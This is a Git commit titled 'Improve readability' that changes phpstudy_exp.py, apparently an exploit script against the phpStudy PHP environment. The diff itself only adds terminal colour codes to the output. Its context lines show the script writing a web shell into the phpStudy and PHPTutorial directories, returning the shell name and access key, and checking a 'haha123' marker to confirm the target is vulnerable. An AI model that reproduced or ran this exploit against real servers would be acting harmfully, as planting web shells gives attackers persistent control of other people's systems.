

Improve readability

diff --git a/phpstudy_exp.py b/phpstudy_exp.py
@@ -43,7 +43,7 @@ def exp():
         requests.get(url=url, headers=head, timeout=5, allow_redirects=False)
     write_shell(version_path='phpStudy')
     write_shell(version_path='PHPTutorial')
-    return f"[*] Shell_name={shell_name}.php, Key={key}"
+    return f"\033[33m[*] Shell_name={shell_name}.php, Key={key}\033[0m"
 
 
 if __name__=="__main__":
@@ -53,10 +53,10 @@ if __name__=="__main__":
     try:
         res = requests.get(url=url, headers=head, timeout=5, allow_redirects=False)
         if res.status_code == 200 and res.text[:7] == "haha123":
-            print("[+] POC EXISTS.")
+            print("\033[32m[+] POC EXISTS.\033[0m")
             print(exp())
         else:
-            print("[-] POC NOT EXISTS.")
+            print("\033[31m[-] POC NOT EXISTS.\033[0m")
     except:
-        print("[!] ERROR!\n")
+        print("\033[41m[!] ERROR!\033[0m")
     
